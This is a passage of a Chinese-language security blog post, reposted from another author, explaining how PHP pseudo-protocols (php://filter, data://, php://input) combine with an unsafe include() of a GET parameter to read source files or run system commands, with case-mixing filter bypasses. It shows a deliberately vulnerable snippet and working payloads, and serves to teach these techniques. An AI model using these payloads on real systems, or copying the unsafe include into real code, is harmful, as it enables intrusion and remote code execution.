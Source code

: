 然后我们尝试一下是不是也能支持PHP命令执行。

![image-20201130165635700](C:\Users\86186\AppData\Roaming\Typora\typora-user-images\image-20201130165635700.png)

显然，并不如我们想要的那样。

为什么会出现这种原因，本质上还是在于对函数功能的理解，这两个函数 include和file_get_contents函数都是支持data伪协议的，这里的data协议用来获取文本数据，然后被include**包含**在当前php文件中，自然而然的就被解析成php代码，而file_get_contents函数只是获取文本的内容，而不是包含，所以没有被解析，从而造成代码执行。

以上两个函数的本地测试只是想说明:

* 存在一部分函数，它们是支持伪协议，并且配合伪协议可以达到一些意想不到的效果。
* 同样是支持伪协议，但是不同函数的功能配合伪协议产生的效果也会很不一样。

接下来对一些函数配合伪协议达到的妙用进行一个小结。

## include+伪协议

### php://filter/read 协议读源码

姿势：

`ceshi=php://filter/read=convert.base64-encode/resource=flag.php`

`ceshi=php://filter/read=convert.iconv.utf-8.utf-16/resource=flag.php`

这里的读取出来的编码可以有多种方式（后面看了利用编码写操作就发现多么骚了。），`base64、utf-8、utf-16`等等，有时候会被过滤，换着绕，另外本地测试发现用这个协议的时候，除了convert那里不能动，其他都可以换成大写小写混着，用这个trick可以绕过一些过滤。

### data协议 

可以利用data协议来执行PHP语句:

姿势：

`data://text/plain,<?php system('ls');?>` 这里加不加 //都可。

利用base64编码来绕过

`data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOz8+`  等效于执行 system('ls');

本地测试发现，除了data不能动，其他都可以混用大小写来达到绕过的目的。

### include+php://input

```php
<?php
 highlight_file(__FILE__);
 $ceshi=$_GET['ceshi'];
 include($ceshi);
?>
```

仍然是这个代码，我们可以利用php://input 协议，利用如下：

`?ceshi=php://input`  然后 post 直接传数据  : `<?php system('ls');` ，这里POST数据可控。

不过这里有要求，当编码格式为 `enctype="multipart/form-data"`  php://input是无效的。


[转自Myon9s大佬的博客]: http://myangswhitehat.cn/	"http://myangswhitehat.cn/"